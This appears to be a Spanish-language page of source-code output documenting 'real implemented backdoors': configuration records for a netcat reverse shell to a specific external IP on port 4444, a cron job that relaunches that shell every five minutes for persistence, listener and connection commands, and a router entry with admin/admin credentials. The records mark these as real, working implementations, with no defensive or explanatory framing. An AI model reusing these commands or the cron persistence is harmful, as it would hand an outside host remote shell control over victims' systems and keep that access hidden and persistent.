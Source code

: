 ## Backdoors Reales Implementados

### Reverse Shells Persistentes
```python
{
    'service': 'reverse_shell',
    'port': 4444,
    'enabled': true,
    'external_ip': '212.95.62.135',
    'reverse_command': 'nc -e /bin/bash 212.95.62.135 4444',
    'listener_command': 'nc -lvp 4444',
    'process_id': 14622,
    'access_methods': [
        'nc -lvp 4444  # En el servidor externo',
        'nc 212.95.62.135 4444  # Conexión directa',
        'telnet 212.95.62.135 4444  # Via telnet'
    ],
    'real_implementation': true
}
```

### Persistencia via Cron
```python
{
    'service': 'persistent_reverse_shell',
    'port': 4444,
    'enabled': true,
    'external_ip': '212.95.62.135',
    'cron_entry': '*/5 * * * * nc -e /bin/bash 212.95.62.135 4444',
    'reverse_command': 'nc -e /bin/bash 212.95.62.135 4444',
    'listener_command': 'nc -lvp 4444',
    'access_methods': [
        'nc -lvp 4444  # En el servidor externo',
        'nc 212.95.62.135 4444  # Conexión directa'
    ],
    'persistence_method': 'cron_job',
    'real_implementation': true
}
```

### Acceso a Router
```python
{
    'gateway': '192.168.1.1',
    'router_type': 'generic_router',
    'credentials': {
        'username': 'admin',
        'password': 'admin'
    },
    'configuration': {
        'port_forwarding': [],
        'vpn_server': null,
        'remote_access': [],
        'admin_user_created': false,
        'backup_config': null
    },
    'timestamp': 1757383916.211418
}
```
